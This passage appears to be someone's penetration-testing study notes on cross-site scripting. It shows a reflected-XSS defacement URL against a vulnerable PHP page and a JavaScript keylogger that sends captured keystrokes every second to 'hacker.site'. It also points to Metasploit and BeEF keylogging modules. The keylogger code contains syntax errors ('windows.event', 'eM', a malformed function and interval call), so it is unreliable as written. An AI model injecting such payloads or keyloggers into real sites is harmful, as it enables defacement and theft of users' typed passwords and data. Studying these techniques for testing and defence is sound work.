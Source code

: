 - *Non-persistent defacements* don't modify the content hosted on the target web application. They are basically abusing Reflected XSS.

```
# Code
<?php $name = @$_GET['name']; ?>
Welcome <?=$name?>

# URL
https://victim.site/XSS/reflected.php?name=%3Cscript%3Edocument.body.innerHTML=%22%3Cimg%20src=%27http://hackersite/pwned.png%27%3E%22%3C/script%3E
```

- *Persistent defacements* modify permanently the content hosted on the target web application. They are basically abusing Stored XSS.

[Tools for cloning a website](../cloning-a-site.md)

### 4. Keyloggers

A tool: [http_javascript_keylogger](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/capture/http_javascript_keylogger.rb). See also [my notes on that metasploit module](../metasploit.md).

Event logger from [BeEF](../beef.md).

The following code:

```js
var keys = "" //Where > where to store the key strokes
document.onkeypress = function(e) {
	var get = windows.event ? event : eM
	var key = get.keyCode ? get.keyCode : get.charCode;
	key = String.fromCharCode(key);
	keys += key;
}

window.setInterval(function()) {
	if(keys != "") {
		//HOW> sends the key strokes via GET using an Image element to listening hacker.site server
		var path = encodeURI("http://hacker.site/keylogger?k=" + keys);
		new Image().src = path;
		keys = "";
		
	}
}, 1000; // WHEN > sends the key strokes every second
```

Additionally, we have the [metasploit](../metasploit.md) module auxiliary(http_javascript_keylogger), an advance version of the previous javascript code. It creates the Javascript payload with a keylogger, which could be injected within the vulnerable web page and automatically starts the listening server. To see how it works, set the DEMO option to true.

### 5. Network attacks
